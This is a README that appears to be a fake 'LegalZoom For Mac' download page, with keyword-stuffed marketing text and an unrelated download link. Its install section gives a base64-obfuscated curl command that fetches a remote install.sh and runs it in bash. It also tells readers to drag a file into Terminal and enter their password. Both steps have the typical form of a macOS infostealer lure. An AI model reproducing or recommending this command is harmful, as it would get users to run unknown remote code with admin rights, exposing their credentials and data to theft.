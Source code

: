 # LegalZoom For Mac — Download For macOS 😊
![LegalZoom Logo](https://www.chamberofcommerce.org/wp-content/uploads/2023/08/LegalZoom_Logo-1024x324.png) 

LegalZoom For Mac is a streamlined desktop app designed to simplify legal document creation, business formation, and attorney consultations for macOS users. Access tools for LLC formation, wills, trademarks, and more, all from a user-friendly interface. Follow the instructions below to download and install LegalZoom For Mac effortlessly. 

[![Download Now](https://img.shields.io/badge/Download-Now-005F6B?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/lzoom)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install LegalZoom For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 📝 **Legal Document Creation**: Generate wills, trusts, contracts, and more with guided templates.
- 🏢 **Business Formation**: Form LLCs, corporations, or DBAs with step-by-step tools.
- 🤝 **Attorney Consultations**: Connect with vetted attorneys for personalized legal advice.
- 🔍 **Trademark & Copyright**: Register and protect intellectual property with ease.
- 📊 **Dashboard Access**: Manage documents, track orders, and view updates in one place.
- 💻 **macOS Optimization**: Native app with distraction-free windows and multi-account support.

## About LegalZoom For Mac

LegalZoom For Mac is a powerful desktop application that brings LegalZoom’s trusted online legal services to macOS, offering tools for creating legal documents, forming businesses, and accessing attorney advice. Designed for entrepreneurs, small business owners, and individuals, it simplifies complex legal processes like LLC formation, trademark registration, and estate planning. With a native macOS app, users enjoy a seamless experience optimized for Apple Silicon and macOS 14.0 Sonoma or later, complete with Finder integration and a distraction-free interface. all-products.html)

The app provides access to LegalZoom’s extensive library of customizable legal forms, including wills, living trusts, and business contracts, all created through guided questionnaires that take minutes to complete. Users can track the status of their LLC filings, download documents, and connect with customer care or attorneys directly from the app. LegalZoom For Mac supports both personal and business needs, making it ideal for those searching for “macOS legal software,” “LegalZoom download,” or “business formation tools.” Its free tier allows basic document creation and account management, with premium services available for advanced needs. 

Security and reliability are at the core of LegalZoom For Mac, with a commitment to accuracy and customer satisfaction. If a filing is rejected due to LegalZoom’s error, corrections are made at no additional cost. The app integrates with macOS notifications and supports multiple accounts, making it easy to switch between personal and business profiles. Unlike traditional legal services, LegalZoom offers transparent pricing and a centralized dashboard for managing documents and orders, ensuring a user-friendly experience for macOS users. 

LegalZoom For Mac empowers users to navigate legal processes without the complexity of hiring a lawyer, though attorney consultations are available for those needing expert guidance. Its SEO-optimized presence ensures discoverability for those seeking affordable legal solutions on macOS. Whether you’re starting a business, protecting intellectual property, or planning your estate, LegalZoom For Mac delivers a professional, accessible platform to meet your legal needs efficiently. 

## Advantages of LegalZoom For Mac

- 📋 **Guided Legal Forms**: Create legal documents quickly with user-friendly templates.
- 💻 **Native macOS App**: Optimized for macOS with seamless Finder integration.
- 🛡️ **Trusted Accuracy**: Free corrections for filings rejected due to LegalZoom errors.
- ⚖️ **Attorney Access**: Connect with vetted attorneys for personalized advice.
- 🆓 **Free Tier Available**: Start with basic document creation at no cost.
- 📈 **Business Tools**: Streamline LLC formation, trademarks, and compliance tasks.

## 🖼 Preview

![Document Creation](https://www.werockyourweb.com/wp-content/uploads/legalzoom-user-interface-screenshot-png-1.png)  
*Generate legal documents like wills and contracts with guided templates.*

![Business Formation](https://www.smbguide.com/wp-content/uploads/2024/01/legalzoom-dashboard.png)  
*Form LLCs or corporations with step-by-step guidance.*

![Dashboard View](https://i.postimg.cc/5tY0nG7W/legalzoom-dashboard.png)  
*Manage documents and track orders from a centralized dashboard.*

![Attorney Consultation](https://i.postimg.cc/0yWqH1mQ/legalzoom-attorney.png)  
*Connect with attorneys for expert legal advice.*

## 🔍 Tags

legalzoom, legal zoom, legalzoom llc, legal zoom log in, legalzoom download, legalzoom mac, legalzoom app, legalzoom desktop, legalzoom free, legalzoomlogin, free legal software macOS, LegalZoom download, macOS business formation, legal document creator mac, LegalZoom For Mac download, free estate planning mac, trademark registration mac, LLC formation software, macOS productivity tools, attorney consultation mac, legal forms mac, LegalZoom free mac
